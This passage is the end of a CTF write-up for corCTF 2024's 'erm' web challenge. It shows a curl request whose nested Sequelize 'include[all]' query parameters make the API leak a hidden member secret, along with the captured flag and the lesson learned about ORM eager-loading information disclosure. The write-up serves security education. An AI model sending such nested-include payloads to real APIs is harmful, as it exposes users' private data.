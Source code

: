 ![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2024/images/Pasted%20image%2020240729212107.png)

Nice!

Let's send the same request to the remote challenge instance and get the real flag!

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/erm/erm)-[2024.07.29|21:37:20(HKT)]
└> curl -s "https://erm.be.ax/api/writeups?include%5ball%5d=All&include%5binclude%5d%5ball%5d=All&include%5binclude%5d%5binclude%5d%5ball%5d=All" | jq -r '.writeups[0].Member.Categories[0].Members[-1].secret'
corctf{erm?_more_like_orm_amiright?}
```

- **Flag: `corctf{erm?_more_like_orm_amiright?}`**

## Conclusion

What we've learned:

1. Sequelize nested eager loading lead to information disclosure